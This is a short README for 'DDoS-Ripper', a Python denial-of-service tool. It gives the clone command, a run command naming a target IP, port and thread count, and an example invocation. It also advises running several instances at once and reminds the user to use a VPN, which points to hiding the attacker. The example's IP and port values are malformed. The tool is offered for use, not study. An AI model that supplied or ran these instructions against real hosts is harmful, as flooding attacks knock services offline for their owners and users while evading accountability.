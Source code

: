 # DDoS-Ripper

## Usage

To use the DRipper - install python and download DRipper.py and headers.txt. Do not forget to use VPN!

`git clone https://github.com/Umbriferous/DDoS-Ripper`

`cd DDoS-Ripper`

Run with the following command:

`python3 DRipper.py -s [ip Address] -p [port] -t [threads]`

example: `python3 DRipper.py -s 0.00.00.00 -p -80 -t 300`

The advised number of threads is between 100 and 400.

You can run multiple instances of DRipper at the same time.
